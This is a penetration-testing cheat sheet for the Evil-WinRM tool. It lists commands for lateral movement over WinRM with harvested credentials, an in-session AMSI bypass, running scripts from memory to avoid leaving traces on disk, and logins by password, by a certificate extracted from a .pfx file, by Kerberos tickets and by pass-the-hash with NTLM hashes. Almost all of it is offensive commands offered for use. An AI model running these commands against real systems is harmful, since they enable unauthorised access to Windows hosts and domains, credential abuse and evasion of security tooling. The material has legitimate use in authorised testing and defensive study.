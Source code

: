 # Evil-WinRM 

## Link: https://github.com/Hackplayers/evil-winrm

## Port: 5985 (Over HTTP) 5986 (Over HTTPS)

## TIP: Use -S flag to enable SSL. Use this when the WinRM port is 5986 (Over HTTPS)

### Do lateral movement via WinRM protocol using found credentials with evil-winrm

### In your Evil-WinRM session, when authenticating you can use a folder from your local machine as a source to run powershell scripts

    evil-winrm -i TARGET_IP -u USER -p PASSWORD -s /path/to/PowerSharpBinaries

### Bypass AMSI using the command within the session:

    Bypass-4MSI

### Then you can run scripts from memory (DO NOT WRITE ON DISK!)

## Authentication Methods

#### 1) Clear text Password

     evil-winrm -i TARGET_IP -u USERNAME -p PASSWORD

#### 2) Certificate (.pfx file)

     openssl pkcs12 -in USER_PFX_CERT.pfx -nocerts -out key.pem -nodes

       openssl pkcs12 -in USER_PFX_CERT.pfx -nokeys -out cert.pem

### After generating the private key from the .pfx file, we use Evil-WinRM to authenticate

    evil-winrm -i TARGET_IP -c CERT.pem -k KEY.pem

#### 3) Kerberos

    kinit USERNAME@DOMAIN.LOCAL (Authenticate and retrieve a ticket on Windows)
  
    impacket-getTGT DOMAIN.LOCAL/USERNAME:PASSWORD (Request a TGT ticket on Linux)

 Configure /etc/krb5.conf file with the appropriate settings (Replace some of the placeholders for your use case)

       [libdefaults]
        default_realm = DOMAIN.LOCAL
        ticket_lifetime = 24h
        renew_lifetime = 7d
        forwardable = true
        dns_lookup_realm = false
        dns_lookup_kdc = true

       [realms]
       DOMAIN.local = {
        kdc = IP or Hostname of KDC/Domain Controller
        admin_server = IP or Hostname of Admin Server
       }

       [domain_realm]
        .domain.local = DOMAIN.LOCAL
        domain.local = DOMAIN.LOCAL

### 

    evil-winrm -r DOMAIN.LOCAL -i DC.DOMAIN.LOCAL (Authenticate via kerberos)

#### 4) NTLM Authentication (Pass-the-Hash)

    evil-winrm -i TARGET_IP -u USER -H NTLM_HASH
